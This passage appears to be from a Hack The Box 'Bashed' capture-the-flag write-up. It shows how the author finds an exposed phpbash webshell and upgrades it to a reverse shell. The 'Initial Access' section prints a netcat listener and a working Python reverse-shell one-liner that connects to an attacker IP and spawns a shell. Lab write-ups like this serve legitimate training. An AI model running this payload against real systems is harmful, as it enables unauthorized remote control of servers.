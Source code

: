 ```bash
```

While the scan is running its always a good idea to take a look at the webpage in a browser and check the source code. Sometimes this provides a piece of important information. I like to do this while something else is running in order to save a little time. The homepage indicates that phpbash was used on this server. Investigating this further shows that php bash is a webshell that can be used to execute system commands

![phpbash homepage](/assets/img/blog/htb/bashed/phpbash.png)

Reviewing the directories discovered by gobuster, we find we are able to list the files of the directory and within it, there are 2 files which appear to be the webshell:
```bashR
phpbash.php
phpbash.min.php
```

# Initial Access
Using a browser to navigate to either of these files provides us with a webshell as the user www-data. With webshells, its generally more useful to upgrade to a reverse shell. So we can do that next. To do this we must first start a netcat listener on our host and then initiate a the reverse shell from the webshell. 
```bash
# On our host we setup the listener
nc -nlvp 4444

# In the Web Shell 
export RHOST="10.10.14.83";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
